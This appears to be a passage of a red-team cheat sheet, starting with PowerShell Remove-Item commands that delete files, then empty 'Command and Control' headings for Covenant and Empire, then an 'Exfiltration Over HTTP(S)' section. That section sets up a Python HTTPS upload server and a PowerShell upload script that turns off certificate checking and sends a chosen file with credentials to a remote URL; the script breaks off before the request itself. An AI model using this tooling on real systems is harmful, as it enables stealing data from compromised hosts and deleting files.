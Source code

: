 `Remove-Item C:\Test\*.*`
`Remove-Item C:\Users\Public\*.*`

# Command and Control

## Covenant
## Empire

# Exfiltration

## Exfiltration Over HTTP(S)
### The Server - Python

1. Download Python HTTPS Server with Authentication
	
	ADDLINK

2. Create certificate

Create a certificate so you can use SSL

```
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

3. Start the server

Usage:

```
python simple-https-server.py 4433 admin:password
```

### The Client - Powershell

1. Create upload.ps1

```
 add-type @"
 using System.Net;
 using System.Security.Cryptography.X509Certificates;
 public class TrustAllCertsPolicy : ICertificatePolicy {
 public bool CheckValidationResult(
 ServicePoint srvPoint, X509Certificate certificate,
 WebRequest request, int certificateProblem) {
 return true;
 }
 }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy

echo "========================================================================"
echo "USAGE: ./upload.ps1 https://domain.com/ username:password file_to_upload"
echo "-"
echo "NOTE: script and file to be uploaded must be in the same directory"
echo "========================================================================"

$url=$args[0]
$auth=$args[1]
$filename=$args[2]

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($auth))

```